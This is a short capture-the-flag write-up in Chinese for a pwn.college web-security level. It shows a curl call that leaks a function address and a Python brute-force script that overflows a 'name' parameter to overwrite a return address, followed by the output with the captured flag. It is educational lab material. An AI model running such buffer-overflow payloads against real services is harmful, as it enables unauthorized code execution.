hacker@web-security-level-15:~$
```
首先，在源码里没有win函数的地址，因此我们需要curl一下，然后拿到这个地址
```
hacker@web-security-level-15:~$ curl challenge.localhost/win_address
0x7fa506d8f1c5
```
然后，写脚本，逐步增加a的数量，希望逐渐增加 name 参数的长度。当 name 参数的长度达到一定值时，就会覆盖 greet() 函数的返回地址，
```
import requests
for i in range (250,270):
    address = ("a"*i + "\xc5\xf1\xd8\x06\xa5\x7f\x00\x00")
    params = {"name": address.encode("utf-8")}

    r = requests.get("http://challenge.localhost/greet",params=params)
    if "win" in r.text:
        print(r.text)
```
拿到flag
```
hacker@web-security-level-15:~$ python test.py
Hello, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaÅñØ¥
You win! Here is your flag:
pwn.college{EHqxRFRVOPcCUXWv8Sf1Qk3NLxi.dFDM0MDL2QjMyMzW}


hacker@web-security-level-15:~$
```
事实上打印了一下i发现是257 ，也就是说win函数紧挨着greet函数，可能这是题目故意设置的吧hhh。

